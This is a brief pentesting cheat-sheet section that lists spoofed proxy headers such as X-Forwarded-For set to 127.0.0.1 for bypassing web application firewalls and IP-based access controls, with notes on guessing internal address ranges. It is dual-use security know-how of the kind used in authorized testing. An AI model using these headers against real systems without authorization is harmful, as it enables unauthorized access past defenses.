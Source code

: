 #### 1.1. About

Proxy headers to bypass WAFs:
```
X-Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Real-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Originating-IP: 127.0.0.1
X-Client-IP: 127.0.0.1
X-Forwarded-Host: 127.0.0.1
X-Requested-With: 127.0.0.1
Z-Forwarded-For: 127.0.0.1
X-Originating-IP: 212.97.131.177
X-Forwarded-For: 212.97.131.177
X-Forwarded: 127.0.0.1
Client-IP: 127.0.0.1
Cluster-Client-IP: 127.0.0.1
True-Client-IP: 127.0.0.1
```

#### 1.2. Concept

- allows spoofing of trusted IP addresses
- end-point/server/API/WAF might allow "pass-through" access
- requires some research about internal IP addresses
  - Docker default: `172.17.0.1-254`
  - company guest/corporate network (external/internal IP)

